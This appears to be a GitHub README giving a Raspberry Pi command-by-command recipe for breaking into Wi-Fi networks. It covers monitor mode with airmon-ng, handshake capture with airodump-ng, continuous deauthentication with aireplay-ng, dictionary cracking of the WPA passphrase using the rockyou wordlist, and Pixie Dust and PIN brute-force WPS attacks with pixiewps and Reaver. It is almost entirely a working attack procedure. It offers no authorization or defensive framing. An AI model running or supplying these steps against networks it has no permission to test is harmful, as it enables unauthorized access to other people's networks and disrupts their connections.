 # Raspberry Pi 3 Wireless Security Basic SETUP


## Step 1.0 | Getting Started | Tmux

Install it
```
$ sudo apt-get install tmux
```

Start new with session name
```
$ tmux new -s workingStationName
```

List sessions
```
tmux ls
```

kill session
```
tmux kill-session -t workingStationName
```

Go to current session
```
tmux a -t workingStationName
```


## Step 1.1 | Getting Started | aircrack-ng         
Install it, easy
```
$ sudo apt-get install aircrack-ng
```

Turn your Wireless to work with airmon-ng
```
$ sudo airmon-ng start wlan1
```

Kill any additional software that can disturbed `airmon-ng` performance
```
$ sudo airmon-ng check kill
```

Start `airodump-ng` to look out for networks
```
$ sudo airodump-ng mon0  
```

Start a new `tmux` session
```
$ tmux new -s ESSIDname_WPA
```

Sniffing IVs, ESSID (network name)
```
$ sudo airodump-ng -c 1 -w COLON --bssid 00:90:4C:C1:AC:21 mon0  
```

Start a new `tmux` session
```
$ tmux new -s ESSIDname_WPA_handshake
```

Get a WPA handshake, inside `ESSIDname_WPA_handshake` session
```
$ aireplay-ng -0 0 -a 00:90:4C:C1:AC:21 mon0
```

After the WPA handshake, get a Wordlists text
```
$ wget http://scrapmaker.com/data/wordlists/dictionaries/rockyou.txt
$ open https://wiki.skullsecurity.org/Passwords
```

Or wordlist generator
```
$ sudo apt-get install crunch
```

Start a new `tmux` session
```
$ tmux new -s ESSIDname_passphrase
```

Find the passphrase, inside the `ESSIDname_passphrase` session, max wait 44hr
```
$ sudo aircrack-ng -w rockyou.txt -b 00:90:4C:C1:AC:21 ESSIDname-*.cap
```



## Step 1.2 | Getting Started | Pixie Dust WPS attack with Raver and wash

Getting the System Ready
```
$ sudo apt-get update
$ sudo apt-get install build-essential libsqlite3-dev libpcap-dev sqlite3
```

Download Pixie Dust
```
$ wget https://github.com/wiire/pixiewps/archive/master.zip && unzip master.zip
```

Build it and Install Pixie Dust
```
$ cd pixiewps*/
$ cd src/
$ sudo make
$ sudo make install
$ cd ~
$ rm master.zip
$ sudo mv /usr/local/usr/bin/pixiewps /usr/local/bin
```

Download `Reaver v1.5.3`
```
$ wget https://github.com/t6x/reaver-wps-fork-t6x/archive/master.zip && unzip master.zip
```

Build it and Install `Reaver v1.5.3`
```
$ cd reaver-wps-fork-t6x-master/
$ cd src/
$ ./configure
$ sudo make
$ sudo make install
$ cd ~
$ sudo rm master.zip
```

Start airmon-ng
```
$ sudo airmon-ng start wlan1
```

Find access points
```
$ wash -i mon0
```

Start the Pixie Dust WPS attack
```
$ sudo reaver -i mon0 -b 00:90:4C:C1:AC:21 -c 11 -vvv -K 1 -f
```


## Step 1.3 | Getting Started | Wash + Reaver

See the vulnerability to attack
```
sudo wash -i mon0
```

Start new with session
```
$ tmux new -s ESSIDname_8Pin_Attact
```

Start the cracking
```
$ sudo reaver -i mon0 -b 00:90:4C:C1:AC:21 -vv -L
```
